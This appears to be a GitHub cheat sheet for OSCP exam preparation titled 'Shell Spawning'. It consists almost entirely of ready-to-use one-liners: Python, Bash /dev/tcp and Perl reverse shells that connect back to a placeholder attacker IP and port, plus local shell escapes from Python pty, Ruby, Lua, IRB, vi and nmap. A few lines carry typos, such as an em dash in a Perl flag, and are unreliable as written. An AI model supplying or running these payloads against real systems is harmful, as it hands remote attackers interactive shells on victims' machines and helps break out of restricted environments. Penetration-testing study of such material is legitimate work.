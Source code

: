 # Shell Spawning


Use `which $spawning-tool`

<b>Python:</b>
```bash
python -c 'import pty; pty.spawn("/bin/sh")'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<[IP]>",<[PORT]>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
Bash:
```bash
echo os.system('/bin/bash')

/bin/sh -i
	
exec 5<>/dev/tcp/<[IP]>/<[PORT]> cat <&5 | while read line; do $line 2>&5 >&5; done
```

Perl:
```bash
perl —e 'exec "/bin/sh";'
# perl reverse shell
perl -e 'use Socket;$i="<[IP]>";$p=<[PORT]>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
	
Ruby
```bash
ruby -e exec "/bin/sh"
```

Lua
```bash
lua -e os.execute('/bin/sh')
```

From within IRB:
```
exec "/bin/sh"
```

From within vi:
```bash
:!bash
```
From within vi
```bash
:set shell=/bin/bash:shell
```

From within nmap:
```
!sh
```

## References

[pythonmaster GO-FOR-OSCP](https://github.com/pythonmaster41/Go-For-OSCP/blob/master/README.md)